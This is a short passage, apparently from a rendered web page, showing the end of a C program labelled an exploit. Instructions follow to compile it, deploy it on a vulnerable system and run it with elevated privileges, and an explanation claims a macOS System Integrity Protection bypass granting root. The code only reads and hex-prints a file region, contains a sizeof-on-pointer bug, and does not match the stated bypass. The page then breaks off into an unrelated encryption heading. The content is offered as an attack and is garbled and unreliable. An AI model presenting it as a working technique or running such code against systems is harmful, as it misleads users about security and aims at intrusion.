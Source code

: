   ```c
      }
  
      if (fseek(fp, KERNEL_REGION_START, SEEK_SET) < 0) {
          perror("fseek");
          fclose(fp);
          free(buffer);
          return 1;
      }
  
      if (fread(buffer, KERNEL_REGION_SIZE, 1, fp) != 1) {
          perror("fread");
          fclose(fp);
          free(buffer);
          return 1;
      }
  
      // Print a portion of the kernel memory region to demonstrate disclosure
      for (int i = 0; i < sizeof(buffer); i++) {
          if ((i % 16) == 0)
              printf("\n%08x:", KERNEL_REGION_START + i);
          printf("%02x ", buffer[i]);
      }
      puts("");
  
      fclose(fp);
      free(buffer);
  
      return 0;
  }  
  ```

### How to Run

  1. Compile the exploit code using Xcode or a similar tool.
	2. Deploy the exploit binary on a vulnerable system.
	3. Trigger the exploit by running the binary with elevated privileges.

### Why it Works

The macOS System Integrity Protection (SIP) is a security feature that restricts the ability to modify certain system files and folders. By exploiting a vulnerability in this component, an attacker can bypass SIP restrictions and execute arbitrary code with root privileges, allowing them to gain full control over the device.


### __ __


**Encryption Libraries and Secure Communication Channels**

# Encryption Libraries
